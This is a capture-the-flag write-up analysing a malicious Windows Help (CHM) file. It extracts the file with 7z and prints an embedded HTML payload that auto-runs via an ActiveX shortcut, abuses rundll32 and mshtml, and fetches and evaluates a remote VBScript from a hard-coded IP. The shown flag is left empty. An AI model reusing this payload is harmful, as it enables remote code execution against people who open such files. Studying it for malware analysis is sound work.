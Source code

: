 # CHM

> **Challenge Description:** Help me with this Windows Help file. Our anti-virus has detected this file as a malware. Seriously, it's just a Windows Help file. Analyze and find the flag.
>
> **Flag Format:** `ihack{MD5}`

### Solution

CHM files can be opened and extracted using `hh.exe` in Windows for legitimate use. In this case, extract all the components from the CHM file using `7z`.

```
┌──(kali💀JesusCries)-[~/Desktop/iHack/CHM]
└─$ 7z e chm.chm 

7-Zip [64] 16.02 : Copyright (c) 1999-2016 Igor Pavlov : 2016-05-21
p7zip Version 16.02 (locale=en_US.UTF-8,Utf16=on,HugeFiles=on,64 bits,8 CPUs Intel(R) Core(TM) i7-9750H CPU @ 2.60GHz (906EA),ASM,AES-NI)

Scanning the drive for archives:
1 file, 10781 bytes (11 KiB)

Extracting archive: chm.chm
--
Path = chm.chm
Type = Chm
Physical Size = 10781

Would you like to replace the existing file:
  Path:     ./Property
  Size:     4 bytes (1 KiB)
  Modified: 2022-12-01 00:52:05
with the file from archive:
  Path:     $WWAssociativeLinks/Property
  Size:     4 bytes (1 KiB)
? (Y)es / (N)o / (A)lways / (S)kip all / A(u)to rename all / (Q)uit? u

Everything is Ok                     

Folders: 2
Files: 12
Size:       11892
Compressed: 10781
```

The extracted `version.html` contains a embedded payload that references a `.vbs` file from a remote URL.

```
┌──(kali💀JesusCries)-[~/Desktop/iHack/CHM]
└─$ cat version.html                                               
<body>
    <OBJECT id=x classid="clsid:adb880a6-d8ff-11cf-9377-00aa003b7a11" width=1 height=1>
        <PARAM name="Command" value="ShortCut">
        <PARAM name="Button" value="Bitmap::shortcut">
        <PARAM name="Item1" value=',cmd.exe,/c copy /Y C:\Windows\system32\rundll32.exe %TEMP%\out.exe > nul && %TEMP%\out.exe javascript:"\..\mshtml RunHTMLApplication ";document.write();h=new%20ActiveXObject("WinHttp.WinHttpRequest.5.1");h.Open("GET","http://139.59.122.20/version.vbs",false);try{h.Send();b=h.ResponseText;eval(b);}catch(e){new%20ActiveXObject("WScript.Shell").Run("cmd /c taskkill /f /im out.exe",0,true);}'>
        <PARAM name="Item2" value="273,1,1">
      </OBJECT>
      <SCRIPT>
        x.Click();
      </SCRIPT> 
</body>
</html>  
```

Continue analyzing `version.vbs` and extract the flag from the `TXT` file.

**Flag:** `ihack{}`
